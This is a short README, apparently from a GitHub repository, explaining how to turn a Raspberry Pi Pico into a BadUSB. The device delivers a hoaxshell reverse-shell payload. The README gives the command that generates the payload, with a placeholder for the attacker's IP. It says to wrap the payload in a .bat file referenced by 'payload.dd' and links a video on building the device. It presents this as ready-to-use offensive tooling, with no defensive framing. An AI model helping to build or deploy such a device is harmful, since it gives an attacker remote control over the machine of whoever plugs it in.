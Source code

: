 # Raspberry Pi Pico BAD USB Hoaxshell Payload  
Hello, in this repo i'll show you how to get a reverse shell using https://github.com/t3l3machus/hoaxshell with pi pico.

At first you'll  have to create a payload with hoaxshell.
`# python hoaxshell.py -s <YOUR_IP> `

![image](https://user-images.githubusercontent.com/82729808/200847245-1fc40f55-b63b-497f-bc29-9e4f3922bf2a.png)

Then you need to create a .bat file with that payload script and specify it in "payload.dd",
And you are ready to go!

If you don't know how to make a BAD USB using Raspberry Pi Pico, you can learn from this video.
`https://www.youtube.com/watch?v=e_f9p-_JWZw`

Happy Hacking!

